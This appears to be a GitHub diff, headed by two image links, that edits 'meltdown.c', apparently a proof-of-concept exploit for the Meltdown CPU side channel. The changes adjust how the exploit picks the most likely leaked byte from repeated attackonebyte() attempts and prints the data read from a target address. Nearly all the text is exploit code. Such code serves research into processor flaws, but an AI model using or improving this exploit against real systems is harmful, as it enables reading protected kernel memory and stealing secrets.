

meltdown

diff --git a/meltdown.c b/meltdown.c
@@ -137,7 +137,7 @@ int main(int argc, char *argv[])
 	for (i = 0; i < size; i++)
 	{
 		memset(attemp, 0, sizeof(attemp));
-		max = 0; max_i = 0; 
+		max = -1; max_i = 0; 
 		for (j = 0; j<ATTEMP; j++)
 		{
 			ret = attackonebyte(fd, addr);
@@ -146,7 +146,7 @@ int main(int argc, char *argv[])
 #endif
 			attemp[ret]++;
 		}
-		for (j = 0; j < ARRAY_SIZE; j++)
+		for (j = 1; j < ARRAY_SIZE; j++)
 		{
 			if (attemp[j]&&attemp[j] > max)
 			{
@@ -157,6 +157,8 @@ int main(int argc, char *argv[])
 		ret = max_i;
 		printf("read:%lx data=%2x %c", addr, ret, isprint(ret) ? ret : ' ');
 #if MOREINFO
+		if(max==-1)
+		max=ATTEMP;
 		printf("  %din%d", max, ATTEMP);
 #endif
 		printf("\n");
